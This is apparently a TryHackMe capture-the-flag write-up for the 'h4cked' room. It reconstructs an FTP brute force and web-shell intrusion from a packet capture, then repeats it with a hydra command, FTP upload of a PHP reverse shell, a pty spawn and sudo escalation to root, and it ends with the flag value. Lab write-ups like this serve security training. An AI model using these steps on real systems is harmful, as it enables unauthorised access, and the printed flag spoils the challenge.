

# TryHackMe -  h4cked

<fieldset>

<legend>Room Information</legend>

- **Name:** [link](example.com)
- **Category:** Forensics
- **Type**: Challenge, boot2root
- **Difficulty:** Easy
- **Tools**:
  - Wireshark
  - Hydra
- **Skills Learned**
  - Packet Analysis
  - Packet Tracing

</fieldset>

## Description

> Find out what happened by analysing a .pcap file and hack your way back into the machine

---

## Task1:  Oh no! We've been hacked! 

The attacker is bruteforcing FTP, trying to guess user jenny's password.


The attacker successfully guessed jenny's password which is `password123`.


With FTP access, the attacker dropped a web shell backdoor called `shell.php` on /var/www/html


Web shell code: https://github.com/pentestmonkey/php-reverse-shell



The attacker triggered the web shell via browser.


The attacker gained foothold on the system


The attacker escalating to user jenny and then to root straightly via `sudo su`. The attacker also trying to implant a [rootkit](https://github.com/f0rb1dd3n/Reptile).


## Task 2: Hack your way back into the machine

Jenny password has ben changed to `987654321`.


Backdooring backdoor


Put the shell back.


Foothold


Privilege escalation


Flag


## Commands log

```
hydra -l jenny -P /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt ftp://10.10.134.91
ftp> mget shell.php
ftp> put shell.php hackback.php
ftp> site chmod 777 hackback.php
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@wir3:/$ su - jenny               
su - jenny
Password: 987654321
jenny@wir3:~$ sudo -l
sudo -l
[sudo] password for jenny: 987654321

Matching Defaults entries for jenny on wir3:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jenny may run the following commands on wir3:
    (ALL : ALL) ALL
jenny@wir3:~$ sudo su -
sudo su -
root@wir3:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@wir3:~# ls -la
ls -la
total 20
drwx------  3 root root 4096 Feb  2 10:23 .
drwxr-xr-x 22 root root 4096 Feb  2 10:28 ..
lrwxrwxrwx  1 root root    9 Feb  2 10:20 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwxr-xr-x  7 root root 4096 Feb  2 10:23 Reptile
root@wir3:~# cd Reptile	
cd Reptile
root@wir3:~/Reptile# ls
ls
configs   Kconfig  Makefile  README.md  userland
flag.txt  kernel   output    scripts
root@wir3:~/Reptile# cat flag.txt
cat flag.txt
ebcefd66ca4b559d17b440b6e67fd0fd
```

